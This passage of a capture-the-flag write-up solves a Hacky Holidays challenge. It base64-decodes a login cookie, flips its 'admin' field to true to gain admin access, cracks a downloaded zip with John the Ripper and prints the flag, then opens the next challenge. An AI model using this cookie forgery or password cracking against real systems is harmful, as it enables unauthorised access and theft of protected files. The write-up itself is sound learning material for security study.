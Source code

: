 We can notice logging in sets the cookie `securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=` and we are logged in as non admin user. 

Base64 decode the cookie
```bash
>> sapra@MacBook-Pro % echo eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0= | base64 -D

{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}
```

set the "admin" value to `true` and base64 encode and send it back. It should log us in as admin user.
```bash
>> sapra@Macbook-Pro % echo '{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}' | base64

eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQo=
```
![](https://i.imgur.com/Cbpi0II.png)


We are able to log in as admin, but hey challenge ain't over yet :P. 

Download the zip file https://hackyholidays.h1ctf.com/my_secure_files_not_for_you.zip, We now have a password protected zip file.
We can use john-the-ripper tool to crack the zip file password.

```bash
>> root@box:/ctf $ wget https://hackyholidays.h1ctf.com/my_secure_files_not_for_you.zip -O flag.zip
>> root@box:/ctf $ ./JohnTheRipper/run/zip2john flag.zip > flag.hash
>> root@box:/ctf $ ./JohnTheRipper/run/john flag.hash --show

<< flag.zip:hahahaha::flag.zip:flag.txt, xxx.png:flag.zip
```

ZIP's password is `hahahaha`. We can now decrypt the zip and it will output a flag.txt file which has the flag
```
>> root@32ee62bd0d46:/ctf# unzip -P "hahahaha" flag.zip
Archive:  flag.zip
  inflating: xxx.png
 extracting: flag.txt

>> root@32ee62bd0d46:/ctf# cat flag.txt
flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}
```

> FLAG-5: flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}

![](https://i.imgflip.com/4rmu5d.jpg)

## My-Diary: FLAG 6

Description:
```
Hackers! It looks like the Grinch has released his Diary on Grinch Networks. We know he has an upcoming event but he hasn't posted it on his calendar. Can you hack his diary and find out what it is?

Challenge-URL: https://hackyholidays.h1ctf.com/my-diary
```
### Understanding the Web-App
